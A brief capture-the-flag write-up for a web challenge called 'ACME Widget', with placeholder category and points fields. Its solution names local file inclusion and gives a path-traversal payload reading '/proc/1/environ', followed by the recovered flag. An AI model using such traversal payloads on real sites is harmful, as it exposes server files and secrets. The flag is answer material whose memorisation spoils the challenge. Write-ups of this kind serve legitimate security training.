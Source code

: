 # CTF Name – ACME Widget

- **Category:** category
- **Points:** points

## Challenge

> Welcome to Acme Widgets...We just launched our new website promoting our Widgets...if you get stuck with anything use our contacts form and Include your details we will get back to you in a jiffy!

## Solution

Local file include

Find environment variable

?p=../../../../../proc/1/environ

```
winter_is_coming
```
